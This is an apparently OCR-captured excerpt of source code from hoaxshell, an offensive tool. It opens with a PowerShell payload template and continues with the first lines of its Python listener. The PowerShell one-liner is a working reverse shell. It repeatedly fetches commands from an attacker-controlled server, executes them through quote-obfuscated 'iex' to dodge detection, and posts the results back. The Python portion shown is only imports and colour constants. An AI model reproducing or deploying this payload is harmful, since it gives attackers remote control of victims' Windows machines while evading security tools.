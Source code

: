 $s='*SERVERIP*';$i='*SESSIONID*';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/*VERIFY* -Headers @{"*HOAXID*"=$i};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/*GETCMD* -Headers @{"*HOAXID*"=$i}).Content;if ($c -ne 'None') {$r=i'ex' $c -ErrorAction Stop -ErrorVariable e;$r=Ou't-St'ring -InputObject $r;$t=Invoke-WebRequest -Uri $p$s/*POSTRES* -Method POST -Headers @{"*HOAXID*"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} s'le'ep *FREQ*}

# and the python source is now
# ~/hoaxshell/hoaxshell.py

#!/usr/bin/env python3
#
# Author: Panagiotis Chartas (t3l3machus)
# https://github.com/t3l3machus

from http.server import HTTPServer, BaseHTTPRequestHandler
import ssl, sys, argparse, base64, gnureadline, uuid, re
from os import system, path
from warnings import filterwarnings
from datetime import date, datetime
from IPython.display import display
from threading import Thread, Event
from time import sleep
from ipaddress import ip_address
from subprocess import check_output, Popen, PIPE
from string import ascii_uppercase, ascii_lowercase
from platform import system as get_system_type
from random import randint
from pyperclip import copy as copy2cb

filterwarnings("ignore", category = DeprecationWarning)

''' Colors '''
MAIN = '\033[38;5;50m'
PLOAD = '\033[38;5;119m'
GREEN = '\033[38;5;47m'
BLUE = '\033[0;38;5;12m'
ORANGE = '\033[0;38;5;214m'
RED = '\033[1;31m'
END = '\033[0m'
BOLD = '\033[1m'


''' MSG Prefixes '''
INFO = f'{MAIN}Info{END}'
WARN = f'{ORANGE}Warning{END}'
IMPORTANT = WARN = f'{ORANGE}Important{END}'
FAILED = f'{RED}Fail{END}'
DEBUG = f'{ORANGE}Debug{END}'
